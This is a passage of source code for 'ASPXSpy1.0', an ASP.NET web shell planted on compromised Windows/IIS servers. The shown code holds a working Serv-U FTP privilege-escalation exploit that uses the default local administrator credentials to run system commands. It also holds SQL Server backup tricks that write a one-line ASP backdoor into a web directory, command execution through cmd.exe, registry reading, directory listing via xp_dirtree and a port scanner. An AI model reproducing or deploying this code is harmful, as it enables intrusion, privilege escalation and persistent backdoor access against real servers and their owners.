			string sqlstr=Bin_DBstrTextBox.Text;
			DataTable databind=Bin_DataTable(sqlstr);
			string res="";
			foreach(DataRow dr in databind.Rows)
			{
				for(int i=0; i < databind.Columns.Count; i++)
				{
					res+=dr[i]+"\r";
				}
			}
			Bin_ResLabel.Text="<hr><div id=\"nei\"><PRE>"+res.Replace(" ", "&nbsp;").Replace("<", "&lt;").Replace(">", "&gt;")+"</PRE></div>";


		}
		catch(Exception error)
		{
			Bin_Error(error.Message);
		}

	}

	protected void Bin_DirButton_Click(object sender, EventArgs e)
	{
		Bin_dirPanel.Visible=true;
		Bin_AccPanel.Visible=false;
		Bin_DBinfoLabel.Visible=false;
		Bin_DataGrid.Visible=false;
		Bin_Scroll.Visible=false;
	}

	protected void Bin_listButton_Click(object sender, EventArgs e)
	{
		Bin_dirPanel.Visible=true;
		Bin_AccPanel.Visible=false;
		Bin_DBinfoLabel.Visible=false;
		Bin_SqlDir();
	}
	public void Bin_SqlDir()
	{
		try
		{
			Bin_DataGrid.Visible=true;
			Bin_Scroll.Visible=true;
			Bin_DataGrid.AllowPaging=false;
			string exesql="use pubs;if exists(select * from sysobjects where id=object_id(N'[bin_dir]')and OBJECTPROPERTY(id, N'IsUserTable')=1)drop table [bin_dir]; CREATE TABLE bin_dir(DirName VARCHAR(400), DirAtt VARCHAR(400),DirFile VARCHAR(400))INSERT bin_dir EXEC MASTER..XP_dirtree '"+Bin_DirTextBox.Text+"',1,1;";
			Bin_ExecSql(exesql);
			DataTable sql_dir=Bin_DataTable("select * from bin_dir");
			Bin_DataGrid.DataSource=sql_dir;
			Bin_DataGrid.DataBind();
		}
		catch(Exception e)
		{
			Bin_Error(e.Message);
		}
	}

	protected void Bin_SuButton_Click(object sender, EventArgs e)
	{
		Bin_CmdPanel.Visible=false;
		Bin_SQLPanel.Visible=false;
		Bin_SuPanel.Visible=true;
		Bin_IISPanel.Visible=false;
		Bin_SuresLabel.Text="";
		Bin_LoginPanel.Visible=false;
		Bin_RegPanel.Visible=false;
		Bin_PortPanel.Visible=false;
	}

	protected void Bin_dbshellButton_Click(object sender, EventArgs e)
	{
		Bin_DBinfoLabel.Visible=false;
		Bin_AccPanel.Visible=false;
		Bin_BakDB();
	}
	public void Bin_BakDB()
	{
		string path=Bin_DirTextBox.Text.Trim();
		if(path.Substring(path.Length - 1, 1)==@"\")
		{
			path=path+"bin.asp";
		}
		else
		{
			path=path+@"\bin.asp";
		}
		string sql="if exists(select * from sysobjects where id=object_id(N'[bin_cmd]')and OBJECTPROPERTY(id, N'IsUserTable')=1)drop table [bin_cmd];create table [bin_cmd]([cmd] [image]);declare @a sysname,@s nvarchar(4000)select @a=db_name(),@s=0x62696E backup database @a to disk=@s;insert into [bin_cmd](cmd)values(0x3C256578656375746520726571756573742822422229253E);declare @b sysname,@t nvarchar(4000)select @b=db_name(),@t='"+path+"' backup database @b to disk=@t WITH DIFFERENTIAL,FORMAT;drop table [bin_cmd];";
		Bin_ExecSql(sql);
		Bin_SqlDir();
	}
	public void Bin_BakLog()
	{
		string path=Bin_DirTextBox.Text.Trim();
		if(path.Substring(path.Length - 1, 1)==@"\")
		{
			path=path+"bin.asp";
		}
		else
		{
			path=path+@"\bin.asp";
		}
		string sql="if exists(select * from sysobjects where id=object_id(N'[bin_cmd]')and OBJECTPROPERTY(id, N'IsUserTable')=1)drop table [bin_cmd];create table [bin_cmd]([cmd] [image]);declare @a sysname,@s nvarchar(4000)select @a=db_name(),@s=0x62696E backup log @a to disk=@s;insert into [bin_cmd](cmd)values(0x3C256578656375746520726571756573742822422229253E);declare @b sysname,@t nvarchar(4000)select @b=db_name(),@t='"+path+"' backup log @b to disk=@t with init,no_truncate;drop table [bin_cmd];";
		Bin_ExecSql(sql);
		Bin_SqlDir();
	}

	protected void Bin_LogshellButton_Click(object sender, EventArgs e)
	{
		Bin_DBinfoLabel.Visible=false;
		Bin_AccPanel.Visible=false;
		Bin_BakLog();
	}

	protected void Bin_SuexpButton_Click(object sender, EventArgs e)
	{
		string Result="";
		string user=Bin_SunameTextBox.Text;
		string pass=Bin_SupassTextBox.Text;
		int port=Int32.Parse(Bin_SuportTextBox.Text);
		string cmd=Bin_SucmdTextBox.Text;
		string loginuser="user "+user+"\r\n";
		string loginpass="pass "+pass+"\r\n";
		string site="SITE MAINTENANCE\r\n";
		string deldomain="-DELETEDOMAIN\r\n-IP=0.0.0.0\r\n PortNo=52521\r\n";
		string setdomain="-SETDOMAIN\r\n-Domain=BIN|0.0.0.0|52521|-1|1|0\r\n-TZOEnable=0\r\n TZOKey=\r\n";
		string newdomain="-SETUSERSETUP\r\n-IP=0.0.0.0\r\n-PortNo=52521\r\n-User=bin\r\n-Password=binftp\r\n-HomeDir=c:\\\r\n-LoginMesFile=\r\n-Disable=0\r\n-RelPaths=1\r\n-NeedSecure=0\r\n-HideHidden=0\r\n-AlwaysAllowLogin=0\r\n-ChangePassword=0\r\n-QuotaEnable=0\r\n-MaxUsersLoginPerIP=-1\r\n-SpeedLimitUp=0\r\n-SpeedLimitDown=0\r\n-MaxNrUsers=-1\r\n-IdleTimeOut=600\r\n-SessionTimeOut=-1\r\n-Expire=0\r\n-RatioDown=1\r\n-RatiosCredit=0\r\n-QuotaCurrent=0\r\n-QuotaMaximum=0\r\n-Maintenance=System\r\n-PasswordType=Regular\r\n-Ratios=NoneRN\r\n Access=c:\\|RWAMELCDP\r\n";
		string quite="QUIT\r\n";
		try
		{
			TcpClient tcp=new TcpClient("127.0.0.1", port);
			tcp.ReceiveBufferSize=1024;
			NetworkStream NS=tcp.GetStream();
			Result=Rev(NS);
			Result+=Send(NS, loginuser);
			Result+=Rev(NS);
			Result+=Send(NS, loginpass);
			Result+=Rev(NS);
			Result+=Send(NS, site);
			Result+=Rev(NS);
			Result+=Send(NS, deldomain);
			Result+=Rev(NS);
			Result+=Send(NS, setdomain);
			Result+=Rev(NS);
			Result+=Send(NS, newdomain);
			Result+=Rev(NS);
			TcpClient tcp1=new TcpClient("127.0.0.1", 52521);
			NetworkStream NS1=tcp1.GetStream();
			Result+=Rev(NS1);
			Result+=Send(NS1, "user bin\r\n");
			Result+=Rev(NS1);
			Result+=Send(NS1, "pass binftp\r\n");
			Result+=Rev(NS1);
			Result+=Send(NS1, "site exec "+cmd+"\r\n");
			Result+=Rev(NS1);
			tcp1.Close();
			Result+=Send(NS, deldomain);
			Result+=Rev(NS);
			Result+=Send(NS, quite);
			Result+=Rev(NS);
			tcp.Close();
		}
		catch(Exception error)
		{
			Bin_Error(error.Message);
		}
		Bin_SuresLabel.Text="<div id=\"su\"><pre>"+Result+"</pre></div>";


	}
	protected string Rev(NetworkStream instream)
	{
		string Restr="";
		if(instream.CanRead)
		{
			byte[] buffer=new byte[1024];
			instream.Read(buffer, 0, buffer.Length);
			Restr=Encoding.ASCII.GetString(buffer);
		}
		return "<font color=red>"+Restr+"</font><br>";

	}
	protected string Send(NetworkStream instream,string Sendstr)
	{
		if(instream.CanWrite)
		{
			byte[] buffer=Encoding.ASCII.GetBytes(Sendstr);
			instream.Write(buffer, 0, buffer.Length);
		}
		return "<font color=blue>"+Sendstr+"</font><br>";
	}
	protected void Bin_IISButton_Click(object sender, EventArgs e)
	{
		Bin_LoginPanel.Visible=false;
		Bin_MainPanel.Visible=false;
		Bin_MenuPanel.Visible=true;
		Bin_FilePanel.Visible=false;
		Bin_CmdPanel.Visible=false;
		Bin_SQLPanel.Visible=false;
		Bin_SuPanel.Visible=false;
		Bin_IISPanel.Visible=true;
		Bin_RegPanel.Visible=false;
		Bin_PortPanel.Visible=false;
		Bin_iisLabel.Text=Bin_iisinfo();

	}

	protected void Bin_PortButton_Click(object sender, EventArgs e)
	{
		Bin_MenuPanel.Visible=true;
		Bin_LoginPanel.Visible=false;
		Bin_CmdPanel.Visible=false;
		Bin_SQLPanel.Visible=false;
		Bin_SuPanel.Visible=false;
		Bin_IISPanel.Visible=false;
		Bin_RegPanel.Visible=false;
		Bin_PortPanel.Visible=true;
		Bin_ScanresLabel.Text="";
	}

	protected void Bin_RegButton_Click(object sender, EventArgs e)
	{
		Bin_MenuPanel.Visible=true;
		Bin_LoginPanel.Visible=false;
		Bin_CmdPanel.Visible=false;
		Bin_SQLPanel.Visible=false;
		Bin_SuPanel.Visible=false;
		Bin_IISPanel.Visible=false;
		Bin_RegPanel.Visible=true;
		Bin_PortPanel.Visible=false;
		Bin_RegresLabel.Text="";

	}

	protected void Bin_RegreadButton_Click(object sender, EventArgs e)
	{
		try
		{
			string regkey=Bin_KeyTextBox.Text;
			string subkey=regkey.Substring(regkey.IndexOf("\\")+1, regkey.Length - regkey.IndexOf("\\")- 1);
			RegistryKey rk=null;
			object buffer;
			string regstr="";
			if(regkey.Substring(0, regkey.IndexOf("\\"))=="HKEY_LOCAL_MACHINE")
			{
				rk=Registry.LocalMachine.OpenSubKey(subkey);
			}
			if(regkey.Substring(0, regkey.IndexOf("\\"))=="HKEY_CLASSES_ROOT")
			{
				rk=Registry.ClassesRoot.OpenSubKey(subkey);
			}
			if(regkey.Substring(0, regkey.IndexOf("\\"))=="HKEY_CURRENT_USER")
			{
				rk=Registry.CurrentUser.OpenSubKey(subkey);
			}
			if(regkey.Substring(0, regkey.IndexOf("\\"))=="HKEY_USERS")
			{
				rk=Registry.Users.OpenSubKey(subkey);
			}
			if(regkey.Substring(0, regkey.IndexOf("\\"))=="HKEY_CURRENT_CONFIG")
			{
				rk=Registry.CurrentConfig.OpenSubKey(subkey);
			}
			buffer=rk.GetValue(Bin_ValueTextBox.Text, "NULL");
			if (buffer.GetType()==typeof(byte[]))
			{
				foreach (byte tmpbyte in (byte[])buffer)
				{
					if ((int)tmpbyte<16)
					{
						regstr+="0";
					}
					regstr+=tmpbyte.ToString("X");
				}
				Bin_RegresLabel.Text="<br>Result : "+regstr;
			}
			else
			{
				Bin_RegresLabel.Text="<br>Result : "+buffer.ToString();
			}
		}
		catch(Exception error)
		{
			Bin_Error(error.Message);
		}
	}

	protected void Bin_ScancmdButton_Click(object sender, EventArgs e)
	{
		try
		{
			string res="";
			string[] port=Bin_PortsTextBox.Text.Split(',');
			for(int i=0; i < port.Length; i++)
			{
				res+=Bin_Scan(Bin_ScanipTextBox.Text, Int32.Parse(port[i]))+"<br>";
			}
			Bin_ScanresLabel.Text="<hr>"+res;
		}
		catch(Exception error)
		{
			Bin_Error(error.Message);
		}
	}
	protected string Bin_Scan(string ip, int port)
	{

		string scanres="";
		TcpClient tcp=new TcpClient();
		tcp.SendTimeout=tcp.ReceiveTimeout=2000;
		try
		{
			tcp.Connect(ip, port);
			tcp.Close();
			scanres=ip+" : "+port+" ................................. <font color=green><b>Open</b></font>";
		}
		catch(SocketException e)
		{
			scanres=ip+" : "+port+" ................................. <font color=red><b>Close</b></font>";
		}
		return scanres;
	}
</script>
<html xmlns="http://www.w3.org/1999/xhtml" >
<head runat="server">
	<title>ASPXSpy1.0 -> Bin:)</title>
<style type="text/css">
	A:link {
		COLOR:#000000; TEXT-DECORATION:None
}
A:visited {
		 COLOR:#000000; TEXT-DECORATION:None
}
A:active {
		 COLOR:#000000; TEXT-DECORATION:None
}
A:hover {
		 COLOR:#000000; TEXT-DECORATION:underline
}
BODY {
	FONT-SIZE: 9pt;
	FONT-FAMILY: "Courier New";
	}
#nei {
	width:500px;
	margin:0px auto;

	overflow:hidden
}
#su {
	width:300px;
	margin:0px auto;

	overflow:hidden
}
#cmd {
	width:500px;
	margin:0px auto;

	overflow:hidden
}
	</style>
	<script type="text/javascript" language="javascript" >
	function Command(cmd, str)
	{
		var strTmp=str;
		var frm=document.forms[0];
		if(cmd=='del')
		{
		if(confirm('Del It ?'))
		{
			frm.todo.value=str;
			frm.goaction.value=cmd;
			frm.submit();
		}
		else return;
		}
		if(cmd=='change')
		{
		 frm.todo.value=str;
		 frm.goaction.value=cmd;
		 frm.submit();
		}
		if(cmd=='down')
		{
		 frm.todo.value=str;
		 frm.goaction.value=cmd;
		 frm.submit();
		}
		if(cmd=='showatt')
		{
		 frm.todo.value=str;
		 frm.goaction.value=cmd;
		 frm.submit();
		}
		if(cmd=='edit')
		{
		 frm.todo.value=str;
		 frm.goaction.value=cmd;
		 frm.submit();
		}
		if(cmd=='deldir')
		{
		if(confirm('Del It ?'))
		{
		 frm.todo.value=str;
		 frm.goaction.value=cmd;
		 frm.submit();
		}
		else return;
		}
		if(cmd=='rename' )
		{
		frm.goaction.value=cmd;
		frm.todo.value=str+',';
		str=prompt('Please input new filename:', strTmp);
		if(str &&(strTmp !=str))
		{
			frm.todo.value+=str;
			frm.submit();
		}
		else return;
		 }
		 if(cmd=='renamedir' )
		{
		frm.goaction.value=cmd;
		frm.todo.value=str+',';
		str=prompt('Please input new foldername:', strTmp);
		if(str &&(strTmp !=str))
		{
			frm.todo.value+=str;
			frm.submit();
		}
		else return;
		 }
		 if(cmd=='postdata')
		{
		 frm.todo.value=str.value;
		 frm.goaction.value=cmd;
		 frm.submit();
		}
		if(cmd=='changedata')
		{
		 frm.todo.value=str.value;
		 frm.intext.value=str.options[str.selectedIndex].innerText
		 frm.goaction.value=cmd;
		 frm.submit();
		}
	 }

	</script>
</head>
<body>
	<form id="form1" runat="server"><div style="text-align: center"><asp:Panel ID="Bin_LoginPanel" runat="server" Height="47px" Width="401px">
			<asp:Label ID="PassLabel" runat="server" Text="Password:"></asp:Label>
			<asp:TextBox ID="passtext" runat="server" TextMode="Password" Width="203px"></asp:TextBox>
			<asp:Button ID="LoginButton" runat="server" Text="Enter" OnClick="LoginButton_Click" /><p />
			Copyright(C)2008 Bin -> <a href="http://www.rootkit.net.cn" target="_blank">WwW.RoOTkIt.NeT.Cn</a></asp:Panel><asp:Panel ID="Bin_MenuPanel" runat="server" Height="56px" Width="771px">
			<asp:Label ID="TimeLabel" runat="server" Text="Label" Width="150px"></asp:Label><br />
			<asp:Button ID="MainButton" runat="server" OnClick="MainButton_Click" Text="Sysinfo" />
				<asp:Button ID="Bin_IISButton" runat="server" OnClick="Bin_IISButton_Click" Text="IISSpy" />
			<asp:Button ID="FileButton" runat="server" OnClick="FileButton_Click" Text="WebShell" />
				<asp:Button ID="Bin_CmdButton" runat="server" Text="Command" OnClick="Bin_CmdButton_Click" />
				<asp:Button ID="Bin_SQLButton" runat="server" OnClick="Bin_SQLButton_Click" Text="SqlTools" />&nbsp;<asp:Button
					ID="Bin_SuButton" runat="server" OnClick="Bin_SuButton_Click" Text="SuExp" />
				<asp:Button ID="Bin_PortButton" runat="server" Text="PortScan" OnClick="Bin_PortButton_Click" />
				<asp:Button ID="Bin_RegButton" runat="server" Text="RegShell" OnClick="Bin_RegButton_Click" />
			<asp:Button ID="LogoutButton" runat="server" OnClick="LogoutButton_Click" Text="Logout" /><br />
			<asp:Label ID="Bin_ErrorLabel" runat="server" EnableViewState="False">Copyright(C)2008 Bin -> <a href="http://www.rootkit.net.cn" target="_blank">WwW.RoOTkIt.NeT.Cn</a> -> <a href="http://www.rootkit.net.cn/index.aspx" target="_blank">Reverse-IP</a> </asp:Label></asp:Panel>
		<asp:Panel ID="Bin_MainPanel" runat="server" Width="769px" EnableViewState="False" Visible="False" Height="20px">
			<div style="text-align: left"><asp:Label ID="InfoLabel" runat="server" Width="765px" EnableViewState="False"	></asp:Label></div></asp:Panel><div style="text-align: center">
			<asp:Panel ID="Bin_FilePanel" runat="server" Width="767px" EnableViewState="False" Visible="False"><div style="text-align: left"><asp:Label ID="Bin_FileLabel" runat="server" Text="Label" Width="764px"></asp:Label><br />
			<asp:Label ID="Bin_UpfileLabel" runat="server" Text="Upfile :	"></asp:Label>
			<input class="TextBox" id="Bin_UpFile" type="file" name="upfile" runat="server" />&nbsp;<asp:TextBox ID="Bin_upTextBox" runat="server" Width="339px"></asp:TextBox>&nbsp;
				<asp:Button ID="Bin_GoButton" runat="server" OnClick="Bin_GoButton_Click" Text="GO" />
			<asp:Button ID="Bin_upButton" runat="server" Text="UpLoad" OnClick="Bin_upButton_Click" EnableViewState="False" /><br />
			<asp:Label ID="Bin_CreateLabel" runat="server" Text="Create :"></asp:Label>
			<asp:TextBox ID="Bin_CreateTextBox" runat="server"></asp:TextBox><asp:Button ID="Bin_NewFileButton"
				runat="server" Text="NewFile" OnClick="Bin_NewFileButton_Click" />
			<asp:Button ID="Bin_NewdirButton" runat="server" Text="NewDir" OnClick="Bin_NewdirButton_Click" />
			<br />
			<asp:Label ID="Bin_CopyLabel" runat="server" Text="Copy :" Width="39px"></asp:Label>
			&nbsp;
			<asp:TextBox ID="Bin_CopyTextBox" runat="server" Width="273px"></asp:TextBox>
			<asp:Label ID="Bin_CopytoLable" runat="server" Text="To:"></asp:Label>
			<asp:TextBox ID="Bin_CopytoTextBox" runat="server" Width="268px"></asp:TextBox>
			<asp:Button ID="Bin_CopyButton" runat="server" Text="Copy" OnClick="Bin_CopyButton_Click" />
			<asp:Button ID="Bin_CutButton" runat="server" Text="Cut" Width="46px" OnClick="Bin_CutButton_Click" />
				<asp:Label ID="Bin_FilelistLabel" runat="server" EnableViewState="False"></asp:Label></div><div style="text-align: center">
				<asp:Panel ID="Bin_AttPanel" runat="server" Width="765px" Visible="False"><hr />
					FileName :
					<asp:Label ID="Bin_AttLabel" runat="server" Text="Label"></asp:Label><br />
					<asp:CheckBox ID="Bin_ReadOnlyCheckBox" runat="server" Text="ReadOnly" />
					<asp:CheckBox ID="Bin_SystemCheckBox" runat="server" Text="System" />
					<asp:CheckBox ID="Bin_HiddenCheckBox" runat="server" Text="Hidden" />
					<asp:CheckBox ID="Bin_ArchiveCheckBox" runat="server" Text="Archive" />
					<br />
					CreationTime :
					<asp:TextBox ID="Bin_CreationTimeTextBox" runat="server" Width="123px"></asp:TextBox>
					LastWriteTime :
					<asp:TextBox ID="Bin_LastWriteTimeTextBox" runat="server" Width="129px"></asp:TextBox>
					LastAccessTime :
					<asp:TextBox ID="Bin_AccessTimeTextBox" runat="server" Width="119px"></asp:TextBox><br />
					<asp:Button ID="Bin_SetButton" runat="server" OnClick="Bin_SetButton_Click" Text="Set" />
					<asp:Button ID="Bin_SbackButton" runat="server" OnClick="Bin_SbackButton_Click" Text="Back" />
					<hr />
				</asp:Panel></div>
				<div style="text-align: center"><asp:Panel ID="Bin_EditPanel" runat="server" Visible="False"><hr style="width: 757px" />
					Path:<asp:TextBox ID="Bin_EditpathTextBox" runat="server" Width="455px"></asp:TextBox><br />
					<asp:TextBox ID="Bin_EditTextBox" runat="server" TextMode="MultiLine" Columns="100" Rows="25" Width="760px"></asp:TextBox><br />
					<asp:Button ID="Bin_EditButton" runat="server" Text="Sumbit" OnClick="Bin_EditButton_Click" />&nbsp;<asp:Button
						ID="Bin_BackButton" runat="server" OnClick="Bin_BackButton_Click" Text="Back" /></asp:Panel></div></asp:Panel></div>
				<asp:Panel ID="Bin_CmdPanel" runat="server" Height="50px" Width="763px"><hr />
					CmdPath : &nbsp;<asp:TextBox ID="Bin_CmdPathTextBox" runat="server" Width="395px">C:\Windows\System32\Cmd.exe</asp:TextBox><br />
					Argument :
					<asp:TextBox ID="Bin_CmdShellTextBox" runat="server" Width="395px">/c Set</asp:TextBox><br />
					<asp:Button ID="Bin_RunButton" runat="server" OnClick="Bin_RunButton_Click" Text="Run" />
					<div style="text-align: left">
					<asp:Label ID="Bin_CmdLabel" runat="server" EnableViewState="False"></asp:Label></div>
					<hr /></asp:Panel>
		<asp:Panel ID="Bin_SQLPanel" runat="server" Visible="False" Width="763px">
			<hr />
			ConnString :
			<asp:TextBox ID="Bin_SQLconnTextBox" runat="server" Width="547px">server=localhost;UID=sa;PWD=;database=master;Provider=SQLOLEDB</asp:TextBox><br />
			<asp:RadioButton ID="Bin_SQLRadioButton" runat="server" AutoPostBack="True" OnCheckedChanged="Bin_SQLRadioButton_CheckedChanged" Text="MS-SQL" Checked="True" />
			<asp:RadioButton ID="Bin_AccRadioButton" runat="server" AutoPostBack="True" OnCheckedChanged="Bin_AccRadioButton_CheckedChanged" Text="MS-Access" />
			<asp:Button ID="SQL_SumbitButton" runat="server" Text="Sumbit" OnClick="SQL_SumbitButton_Click" /><hr />
			<asp:Panel ID="Bin_DBmenuPanel" runat="server" Width="759px" Visible="False">
				<asp:Button ID="Bin_BDButton" runat="server" Text="DataBase" OnClick="Bin_BDButton_Click" />
				<asp:Button ID="Bin_SACMDButton" runat="server" Text="SA_Exec" OnClick="Bin_SACMDButton_Click" />
				<asp:Button ID="Bin_DirButton" runat="server" Text="SQL_Dir" OnClick="Bin_DirButton_Click" /><br /><hr /><div style="text-align: left">
				<asp:Label ID="Bin_DBinfoLabel" runat="server" Text="Label" EnableViewState="False"></asp:Label></div></asp:Panel>
			<asp:Panel ID="Bin_AccPanel" runat="server" Height="50px" Width="759px" EnableViewState="False">
				 <asp:Label ID="Bin_AccinfoLabel" runat="server" Text="Label" EnableViewState="False"></asp:Label><br />
			<asp:TextBox ID="Bin_DBstrTextBox" runat="server" TextMode="MultiLine" Width="569px"></asp:TextBox>
			<asp:Button ID="Bin_ExecButton" runat="server" OnClick="Bin_ExecButton_Click" Text="Exec" />
				<asp:Button ID="Bin_SAexecButton" runat="server" Text="SA_Exec" OnClick="Bin_SAexecButton_Click" /><br />
				<div style="text-align:left">
				<asp:Label ID="Bin_ResLabel" runat="server" ></asp:Label></div></asp:Panel>
			<asp:Panel ID="Bin_dirPanel" runat="server" Visible="False" Width="759px">
				Path :
				<asp:TextBox ID="Bin_DirTextBox" runat="server" Width="447px">c:\</asp:TextBox>
				<br />
				<asp:Button ID="Bin_listButton" runat="server" OnClick="Bin_listButton_Click" Text="Dir" />&nbsp;<asp:Button
					ID="Bin_dbshellButton" runat="server" OnClick="Bin_dbshellButton_Click" Text="Bak_DB" />
				<asp:Button ID="Bin_LogshellButton" runat="server" Text="Bak_LOG" OnClick="Bin_LogshellButton_Click" /><hr /></asp:Panel>
			<br /><br />
			<div style="overflow:scroll; text-align:left; width:770px;" id="Bin_Scroll" runat="server" visible="false" >
		 <asp:DataGrid ID="Bin_DataGrid" runat="server" Width="753px" PageSize="20" CssClass="Bin_DataGrid" OnItemDataBound="Item_DataBound" AllowPaging="True" OnPageIndexChanged="Bin_DBPage" OnItemCommand="Item_Command">
			 <PagerStyle Mode="NumericPages" Position="TopAndBottom" />
</asp:DataGrid></div>
		</asp:Panel>
		<asp:Panel ID="Bin_SuPanel" runat="server" Width="763px" >
			<hr />
			Name :
			<asp:TextBox ID="Bin_SunameTextBox" runat="server">localadministrator</asp:TextBox>
			Pass :
			<asp:TextBox ID="Bin_SupassTextBox" runat="server">#l@$ak#.lk;0@P</asp:TextBox>
			Port :
			<asp:TextBox ID="Bin_SuportTextBox" runat="server">43958</asp:TextBox><br />
			CMD :
			<asp:TextBox ID="Bin_SucmdTextBox" runat="server" Width="447px">cmd.exe /c net user</asp:TextBox><br />
			<asp:Button ID="Bin_SuexpButton" runat="server" Text="Exploit" OnClick="Bin_SuexpButton_Click" /><br />
			<div style="text-align:left">
			<hr />
			<asp:Label ID="Bin_SuresLabel" runat="server"></asp:Label>
			</div>
			</asp:Panel>
		<asp:Panel ID="Bin_IISPanel" runat="server" Width="763px"><div style="text-align:left">
			<hr />
			<asp:Label ID="Bin_iisLabel" runat="server" Text="Label" EnableViewState="False"></asp:Label>&nbsp;</div></asp:Panel>
		<asp:Panel ID="Bin_RegPanel" runat="server" Width="763px"><hr /><div style="text-align:left">
			KEY :&nbsp; &nbsp;<asp:TextBox ID="Bin_KeyTextBox" runat="server" Width="595px">HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName</asp:TextBox><br />
			VALUE :
			<asp:TextBox ID="Bin_ValueTextBox" runat="server" Width="312px">ComputerName</asp:TextBox>&nbsp;<asp:Button
				ID="Bin_RegreadButton" runat="server" Text="Read" OnClick="Bin_RegreadButton_Click" /><br />
			<asp:Label ID="Bin_RegresLabel" runat="server"></asp:Label><hr /></div></asp:Panel>
		<asp:Panel ID="Bin_PortPanel" runat="server" Width="763px">
			<hr /><div style="text-align:left">
				IP :
				<asp:TextBox ID="Bin_ScanipTextBox" runat="server" Width="194px">127.0.0.1</asp:TextBox>
				PORT :
			<asp:TextBox ID="Bin_PortsTextBox" runat="server" Width="356px">21,80,1433,3306,3389,4899,5631,43958,65500</asp:TextBox>
				<asp:Button ID="Bin_ScancmdButton" runat="server" Text="Scan" OnClick="Bin_ScancmdButton_Click" /><br />
				<asp:Label ID="Bin_ScanresLabel" runat="server"></asp:Label></div><hr /></asp:Panel>

	</div></form>
</body>
</html>
